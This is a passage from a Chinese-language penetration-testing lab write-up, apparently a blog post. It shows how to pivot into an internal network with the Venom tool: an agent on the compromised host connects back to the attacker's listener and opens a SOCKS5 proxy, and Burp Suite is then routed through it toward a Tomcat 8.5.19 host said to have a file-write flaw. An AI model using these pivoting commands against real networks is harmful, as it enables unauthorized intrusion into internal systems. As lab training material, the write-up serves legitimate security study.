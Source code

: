 
<img src="https://i-blog.csdnimg.cn/blog_migrate/75ece89334a00f11629fb9d1cd1e8082.png" alt="" style="max-height:563px; box-sizing:content-box;" />


然后我们开始搞代理

我们这里使用

Venom 建立 socks5代理

```cobol
我们的主机执行
 
 
./admin.exe -lport 5678
 
 
靶机执行 
 
agent.exe  -rhost 172.16.17.13 -rport 5678
 
 
然后再admin就会回显
 
 
show info
 
 
goto 1
 
socks 1080
```

即可实现socks5代理

然后我们就实现建立socks5代理

然后我们通过浏览器的代理设置 即可访问 192.168.31.131的web服务



<img src="https://i-blog.csdnimg.cn/blog_migrate/92a8cc4033575424e40236329e810360.png" alt="" style="max-height:221px; box-sizing:content-box;" />


### ubuntu内网- web1 Apache Tomcat/8.5.19

搜一下有什么漏洞

发现存在一个文件写入漏洞

需要bp的帮助 这里顺便设置一下bp的socks5代理



<img src="https://i-blog.csdnimg.cn/blog_migrate/c402eef6760d9fd12bb5e1175f7c36ca.png" alt="" style="max-height:484px; box-sizing:content-box;" />


然后我们浏览器开 bp抓包 就会从 8080 走到 1080 然后就可以实现
